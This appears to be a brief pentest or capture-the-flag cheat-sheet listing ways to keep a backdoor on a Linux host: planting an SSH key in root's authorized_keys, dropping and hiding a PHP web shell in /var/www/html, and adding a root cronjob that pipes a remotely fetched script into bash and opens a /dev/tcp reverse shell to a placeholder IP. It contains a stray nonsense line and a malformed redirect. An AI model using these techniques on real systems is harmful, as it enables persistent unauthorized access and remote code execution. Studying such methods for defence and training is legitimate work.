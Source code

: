 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/root/.ssh'
    -- SSH Name                                    Name 'authorized_keys'
        -- chmod 600 id_rsa               	  Gives permissions

-- ssh -i id_rsa root@ip                    Use BackDoor

				PHP BackDoor

-- Location                                         /var/www/html 
    -- BackDoor script

-- Where to execute script                https://ip/PHP-BackDoor.php
kjhfg
                		Hide script

-- Add in existing PHP File
-- Change the "cmd" parameter, cmd is very obvious

				Cronjob BackDoor
-- crontab -l
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
